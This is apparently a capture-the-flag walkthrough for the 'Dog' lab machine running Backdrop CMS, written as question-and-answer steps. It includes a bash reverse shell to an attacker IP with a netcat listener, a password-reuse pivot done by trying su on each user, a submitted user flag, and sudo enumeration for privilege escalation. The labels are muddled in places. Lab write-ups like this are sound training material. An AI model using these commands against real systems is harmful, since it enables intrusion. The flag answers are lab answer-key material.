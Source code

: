 ```
*question*
What system user is the Backdrop CMS instance running as on Dog?
*answer*
```


Step 7: exploiting the service & getting a shell
```bash
bash -c "bash -i >& /dev/tcp/10.10.14.119/1337 0>&1" --> paste on website
#on local pc(attacker machine)
 nc -lnvp 1337     
```

```
*steps*
```
* we know from the question another user has the same password
1. get a shell
2. go to /home directory to check users
3. try su $user for every user until it works

```
*question*
What system user on Dog shares the same DB password?
*answer*
johncusack
```


## USER FLAG
```
*question*
Submit the flag located in the johncusack user's home directory.
*answer*
3744a28dd7a125f4328473c214720c0e


stpes:
1. go to /home/johncusack/
2. cat the user.txt
```

## Privilage Esculation

```
*question - task 9*
Submit the flag located in the johncusack user's home directory.
*answer*
/usr/local/bin/bee
```
stpes:
1. sudo -Sl

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
```


```
*question - task 10*
bee requires a root directory to run properly. What is the appropriate root directory on Dog? Include the trailing /.
